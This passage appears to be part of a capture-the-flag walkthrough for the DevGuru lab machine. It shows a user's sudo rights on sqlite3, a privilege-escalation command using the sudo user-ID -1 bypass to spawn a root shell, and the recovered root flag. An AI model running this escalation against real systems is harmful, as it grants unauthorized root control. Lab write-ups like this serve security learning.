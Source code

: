 	 - https://www.exploit-db.com/exploits/47502
	 - Saw this in TryHackMe: AgentSudo
3. Check for sudo access
	```
	frank@devguru:~/gitea-repositories/frank/vuln.git$ sudo -l
	sudo -l
	Matching Defaults entries for frank on devguru:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User frank may run the following commands on devguru:
		(ALL, !root) NOPASSWD: /usr/bin/sqlite3
	```
4. Exploit
	```
	frank@devguru:~/gitea-repositories/frank/vuln.git$ sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
	<o -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
	sh: 0: getcwd() failed: No such file or directory
	sh: 0: getcwd() failed: No such file or directory
	whoami
	root
	```
	![](images/Pasted%20image%2020220123045746.png)
5. Flag
	```
	root@devguru:/# cd /root
	cd /root
	root@devguru:/root# ls  
	ls
	msg.txt  root.txt
	root@devguru:/root# cat *
		   Congrats on rooting DevGuru!
	  Contact me via Twitter @zayotic to give feedback!


	96440606fb88aa7497cde5a8e68daf8f
	root@devguru:/root# 
	```
	![](images/Pasted%20image%2020220123045956.png)